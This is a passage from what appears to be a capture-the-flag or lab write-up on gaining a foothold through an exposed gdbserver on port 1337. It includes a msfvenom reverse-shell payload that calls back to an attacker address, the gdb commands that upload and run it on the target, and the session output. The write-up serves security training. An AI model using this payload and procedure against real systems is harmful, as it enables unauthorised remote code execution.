 ```bash
w.close()</script>
```

By looking at the results we find these two `bin/sh while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done` and `/bin/sh while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done`. The screen -dmS could be a possible privesc route later, but for now it seems like it lets gdb set up a listener on port 1337. So now we know what program we need to connect to it!

# The exploit for initial foodhold
For those who don't know, gdb is the Gnu project debugger. The program lets you attach other programs to it and offers tools to read out the memory registers and what kind of operations are being sent to the processer on a assembly level. It also has functionality to allow debugging over network. So my guess here is that they set up a gdb server to let others remotely debug programs. How this can be abused though is by creating a malicious payload and letting the debugger run that code. The entire purpose of the debugger is to run code, so this should be relativly easy. A word of caution though, create your payload to resemble the target operating system and you should give it a unique name. If not your initial foothold could be overwritten by others or your code will not run at all. We know it's a linux system through the nmap scan, so this should be easy to pass on to the metasploit framework. For more detailed steps or information, please check out theese two links.
https://sourceware.org/gdb/onlinedocs/gdb/Server.html
https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver
So lets create the payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o plsRunMe.elf
chmod +x plsRunMe.elf
gdb plsRunMe.elf
# Set remote debuger target
target extended-remote 10.10.10.11:1337
# Upload elf file
remote put plsRunMe.elf plsRunMe.elf
# Set remote executable file
set remote exec-file /home/user/plsRunMe.elf
# Execute reverse shell executable
run
```
```bash
(gdb) target extended-remote 10.10.11.125:1337
`target:/home/user/plsRunMe.elf' has disappeared; keeping its symbols.
Remote debugging using 10.10.11.125:1337
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
Reading /lib64/ld-2.31.so from remote target...
Reading /lib64/.debug/ld-2.31.so from remote target...
Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
(No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
(gdb) remote put plsRunMe.elf plsRunMe.elf
Successfully sent file "plsRunMe.elf".
(gdb) set remote exec-file /home/user/plsRunMe.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
`target:/home/user/plsRunMe.elf' has disappeared; keeping its symbols.
Starting program:  
Reading /home/user/plsRunMe.elf from remote target...
Reading /home/user/plsRunMe.elf from remote target...
Reading symbols from target:/home/user/plsRunMe.elf...
(No debugging symbols found in target:/home/user/plsRunMe.elf)
```